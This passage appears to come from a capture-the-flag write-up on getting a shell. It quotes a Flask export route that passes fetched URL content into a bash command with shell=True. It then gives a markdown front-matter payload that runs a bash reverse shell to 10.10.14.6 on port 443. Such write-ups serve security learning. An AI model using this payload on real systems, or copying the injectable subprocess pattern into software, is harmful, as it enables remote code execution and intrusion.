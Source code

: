 #### Shell

I’m concerned about putting my input into the DB and getting it back out again, so I’ll start with the remote export. The code looks like:

```

# Export remote
@app.route('/export_note_remote', methods=['POST'])
@is_logged_in
def export_note_remote():
    if check_VIP(session['username']):
        try:
            url = request.form['url']

            status, error = parse_url(url)

            if (status is True) and (error is None):
                try:
                    r = pyrequest.get(url,allow_redirects=True)
                    rand_int = random.randint(1,10000)
                    command = f"node misc/md-to-pdf.js  $'{r.text.strip()}' {rand_int}"
                    subprocess.run(command, shell=True, executable="/bin/bash")

                    if os.path.isfile(attachment_dir + f'{str(rand_int)}.pdf'):

                        return send_file(attachment_dir + f'{str(rand_int)}.pdf', as_attachment=True)

                    else:
                        return render_template('export_note.html', error="Error occurred while exporting the !")

                except Exception as e:
                    return render_template('export_note.html', error="Error occurred!")

            else:
                return render_template('export_note.html', error=f"Error occurred while exporting ! ({error})")

        except Exception as e:
            return render_template('export_note.html', error=f"Error occurred while exporting ! ({e})")

    else:
        abort(403)

```

The client-side filtering wants the input file to be a markdown file, and this is markdown to pdf, so I’ll create a simple `payload.md`:

```
---js\n((require("child_process")).execSync("bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'"))\n---RCE

```
